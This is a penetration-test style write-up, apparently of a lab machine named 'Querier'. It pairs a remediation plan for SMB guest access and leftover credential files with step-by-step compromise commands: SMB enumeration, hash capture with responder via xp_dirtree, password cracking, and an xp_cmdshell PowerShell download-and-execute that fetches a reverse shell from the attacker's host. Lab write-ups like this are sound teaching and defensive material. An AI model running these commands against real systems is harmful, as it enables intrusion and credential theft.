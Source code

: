 # Security Remediation Plan

## Identified Security Vulnerabilities

The primary security vulnerabilities identified stem from two key issues:

- **Unauthorized Guest Access:** Improper configuration of access controls allowing guest users to log on to the SMB share "REPORTS."
- **Insufficient File Cleanup:** Failure of local administrators and users to properly clean up sensitive files, resulting in the retention of login credentials within Excel macros and configuration files for unattended installations.

These vulnerabilities pose a significant risk, as they could potentially expose critical authentication data to unauthorized individuals, increasing the likelihood of unauthorized access and exploitation of the network.

## Recommended Remediation Steps

To effectively remediate these issues, the following steps should be taken:

1. **System Scrubbing:** Conduct a thorough review and cleanup of the system to identify and remove any leftover configuration files associated with unattended installations. This ensures no sensitive data remains within the system.

2. **Disable Guest Access to SMB Shares:** Immediately disable guest access to the SMB share "REPORTS" to prevent unauthorized users from gaining access to sensitive information.

3. **Establish Strong Policies:** Implement and enforce strict policies for both users and administrators, explicitly prohibiting the storage of passwords in clear text locally. Educate staff on secure password management practices and implement technical controls to minimize the risk of sensitive data being exposed.

By addressing these points, the system will be better secured and the risk of unauthorized access or data breaches significantly reduced.

## Guides

<details>
  <summary>Steps to Recreate Compromise</summary>
  
# Recreating the Compromise

## Step 1: Reconnaissance

Using the following commands, I was able to get information on the open ports and then moved to see if there were any public-facing SMB shares.

nmap -sV -sS -A 10.129.156.234

Please see below for a screenshot of the output of the commands.
![nmap output](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/nmap.png)

Next, we moved to see if there were any shares available.

smbclient -N -L \\\\\\\\10.129.156.234

Please see below for a screenshot of the output of the commands.
![smb shares](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_enumeration.png)

## Step 2: Initial Access

Through the above reconnaissance we were able to identify the "Reports" share
We can test if this share allows guest logon through the following
smbclient -N \\\\\\\\10.129.156.234\\\\Reports
This will succeed and by using the "ls" command we can see that 

"Currency Volume Report.xlsm" is saved here
![smb vuln file](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_available_file.png)

use the following command to save this file locally.

get "Currency Volume Report.xlsm"

The "m" in ".xlsm" means there are macros enabled.
We will next unzip the file with the "unzip" command.
Once it is unzipped use the following command to gain access to our first set of compromised credentials.

head xl/vbaProject.bin | strings
![first creds gathered](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/Initial_creds_comp.png)

## Step 3: Privilege Escalation  

Before you move forward with this section we will need a few tools

- johntheripper
- impacket-mssqlclient
- impacket-psexec
- netcat
- python3 http.server
- responder

the first thing we will be doing is getting 2 terminal windows open. Please pay attention because we will be jumping between the 2 throughout this section.
We will track which we are in with one terminal being labeled "Term 1" and the other being "Term 2".

Term 1: Log into the system with the following command:
impacket-mssqlclient reporting:@10.129.156.234 -windows-auth

Term 2:
Use the following command to setup our listener:

responder -I [YOUR INTERFACE CONNECTED TO THE NETWORK WITH THE VULNERABLE BOX]

Information can be found using "ip addr show"

Term 1:
Next we will send the hashes from the SQL Service with the following command:

xp_dirtree '\\\\[YOUR LOCAL IP]\share\file'

Now you should have been able to gather the hashes on term 2. Please see below for the full output.

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/responder_cred_grab.png)

Next we will take that hash and put it into johntheripper and have the following credentials recovered:

john password_hash -w=/usr/share/wordlist/rockyou.txt

mssql-svc:corporate568

now login with those credentials using:

impacket-mssqlclient mssql-svc:@10.129.156.234 -windows-auth

next on our local machine we will set up a listener with netcat, and a webserver using python3.

Python3 server will be hosting 2 files
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1

For the first one you will add the following line to the end:

Invoke-PowerShellTcp -Reverse -IPAddress YOUR_LOCAL_IP -Port PORT_CHOSEN

For the second link you will add the following to the end of the script:

Invoke-AllChecks

Next create 2 terminals locally and do the following:
Term 1: python3 -m http.server 80
Term 2: nc -lvnp PORT_CHOSEN

now back on the terminal connected to our target input the following:

xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://YOUR_LOCAL_IP/Invoke-PowerShellTcp.ps1\")

You now have a shell on your netcat listener.

Next type in the following to your shell:

iex(new-object net.webclient).downloadstring("http://10.10.16.2/PowerUp.ps1")

this will give the following output:

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/admin_cred_grab.png)


</details>

<details>
  <summary>SMB Guest Access Lockdown</summary>
  
  1. **Step 1:** Disable guest access to the SMB share by adjusting the appropriate access control settings on the server.
  2. **Step 2:** Review and confirm that only authorized users and groups have access to the share.
  3. **Step 3:** Ensure the system is configured to prevent guest access in the future by disabling guest accounts or limiting permissions.
  4. **Step 4:** Document the updated access control configuration and test to confirm restrictions are enforced.

</details>

